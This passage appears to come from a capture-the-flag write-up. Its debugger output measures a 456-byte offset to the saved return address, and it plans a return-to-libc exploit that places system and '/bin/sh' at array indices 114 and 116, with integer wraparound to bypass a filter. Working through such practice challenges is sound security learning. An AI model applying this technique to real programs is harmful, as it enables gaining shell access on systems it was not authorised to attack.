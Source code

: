 ```
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0xffffd68c --> 0x0
EDI: 0x8048d65 --> 0x69757100 ('')
EBP: 0xffffd6b8 --> 0x0
ESP: 0xffffd4d0 --> 0xffffd4f4 --> 0x0
EIP: 0x804892b (<main+520>:	call   0x80486d7 <read_number>)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048922 <main+511>:	jne    0x8048939 <main+534>
   0x8048924 <main+513>:	lea    eax,[esp+0x24]
   0x8048928 <main+517>:	mov    DWORD PTR [esp],eax
=> 0x804892b <main+520>:	call   0x80486d7 <read_number>
   0x8048930 <main+525>:	mov    DWORD PTR [esp+0x1b4],eax
   0x8048937 <main+532>:	jmp    0x8048965 <main+578>
   0x8048939 <main+534>:	lea    eax,[esp+0x1b8]
   0x8048940 <main+541>:	mov    edx,eax
Guessed arguments:
arg[0]: 0xffffd4f4 --> 0x0
[------------------------------------stack-------------------------------------]
0000| 0xffffd4d0 --> 0xffffd4f4 --> 0x0            # return value of eax (beginning of stack)
0004| 0xffffd4d4 --> 0x14
0008| 0xffffd4d8 --> 0xf7fcfac0 --> 0xfbad2288
0012| 0xffffd4dc --> 0xf7fdc714 --> 0x20e28
0016| 0xffffd4e0 --> 0x98
0020| 0xffffd4e4 --> 0xffffffff
0024| 0xffffd4e8 --> 0xffffd7b8 --> 0x0
0028| 0xffffd4ec --> 0xffffd758 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804892b in main ()
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x804892b in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at 0xffffd6b8, args:
 Locals at 0xffffd6b8, Previous frame's sp is 0xffffd6c0
 Saved registers:
  ebx at 0xffffd6ac, ebp at 0xffffd6b8, esi at 0xffffd6b0, edi at 0xffffd6b4, eip at 0xffffd6bc
gdb-peda$ p/d 0xffffd6bc - 0xffffd4f4                                       # ^ here's EIP
$1 = 456
```

Now we know the stack is `456` bytes long. Since the storage buffer is storing integers, it is equivalent to `456 / 4 = 114` integers.

The modifications we'll need to make as part of the exploit are the following:
- Place `system` in the `EIP` register at index `114`
- Place `"/bin/sh"` as an argument to the `system` at index `116`

Unfortunately, the pesky conditional statement in `store_number` will cause issues when storing multiples of 3, so we'll use a wraparound to make the number `114` be stored when we enter something else entirely.
